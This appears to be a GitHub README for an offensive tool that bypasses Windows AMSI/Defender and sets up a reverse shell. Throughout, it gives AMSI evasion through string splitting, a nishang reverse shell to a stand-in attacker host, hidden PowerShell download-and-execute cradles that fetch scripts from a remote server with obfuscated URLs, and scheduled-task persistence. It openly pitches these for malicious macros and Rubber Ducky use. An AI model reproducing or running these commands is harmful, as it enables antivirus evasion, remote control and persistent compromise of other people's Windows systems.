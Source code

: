 # Windows-AMSI-Defender-Bypass

::::Bypassing AMSI and getting a Reverse Shell
------------------------------------------------------------------------------------
Perfect for malicious macros, rubber ducky, or a RCE in a Windows System:

To make all these things work, I used a script that disables the AMSI:
From : https://amsi.fail

You can generate your own, but make sure it works.
-------------------------------------------------------------------------------------
AMSI fail script,
-----------------
fail.ps1:
---------
some of those generated scripts uses the "Amsi Utils", but it gets caught by the AMSI, so i defined it outside of the code
like this:

$am='Amsi'+'U'+'til'+'s' 

--------------------------------------------------------------------------------------------
Getting the shell:
-------------------
nish.ps1: 
-----------
The TCP nishang that we always use from: https://github.com/samratashok/nishang/tree/master/Shells

Definning this at the end of the script:

Invoke-PowerShellTcp -Reverse -IPAddress example.attacker.net -Port 443 

------------------------------------------------------------------------------------------------
Running all in one:
-------------------
trigger.ps1:  
------------
This script is going to be the trigger for the 2 invokes(fail.ps1, nish.ps1), it also defines the $am variable for the fail.ps1:

$n = (new-object net.webClient);$am='Amsi'+'U'+'til'+'s';iex ($n).DownloadString('http://example.ddns.net:80/fail.ps1');iex ($n).DownloadString('http://example.ddns.net:80/nish.ps1')

------------------------------------------------------------------------------------------------------------------------------------------------

Finally we will need to "Invoke-Expression" the trigger:
--------------------------------------------------------------
powershell -windowstyle hidden iex(new-object net.webclient).DownloadString('htt'+'p:/'+'/example.ddns.net:80/trigger.ps1')

Every child process running from this powershell session is going to run without the AMSI, so could easily run a meterpreter from this, but make sure to obfucate it because meterpreter is way more intrusive.


---------------------------------------------

---------------------------------------------

To add an extra
-----------------
We can make it all run as many time as we want by scheduling these Invokes-Expression's:

sched.ps1:
----------
You can modify this to run whenever you want, in (New-TimeSpan -Minutes 'minutes between each run').



In this case you are going to run 2 Invokes:
                    
powershell -windowstyle hidden iex(new-object net.webclient).DownloadString('htt'+'p:/'+'/example.ddns.net:80/trigger.ps1')
powershell -windowstyle hidden iex(new-object net.webclient).DownloadString('htt'+'p:/'+'/example.ddns.net:80/sched.ps1')

You can make only one call by creating another .ps1

These scripts are going to be in this repository: 
----------------------------------------
https://github.com/Filiplain/Windows-AMSI-Defender-Bypass

Make sure to define your IP or Domain into the files
And host a server where all the files are located
Don't forget the lsitener with the port that you defined in the nishang or any reverse-shell you use.


Invokes Map:
------------
                                                                 

                trigger.ps1                    
              /            \
          fail.ps1   ;  nish.ps1
                                                       



